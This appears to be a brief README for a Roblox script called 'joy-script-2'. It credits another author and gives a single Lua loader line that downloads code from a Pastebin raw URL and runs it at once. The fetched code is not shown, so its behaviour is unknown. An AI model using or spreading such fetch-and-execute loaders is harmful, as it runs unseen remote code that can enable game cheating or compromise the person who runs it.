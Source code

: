 # joy-script-2
script is made by another owner but here is the script:loadstring(game:HttpGetAsync("https://pastebin.com/raw/LEAQuKj0"))()
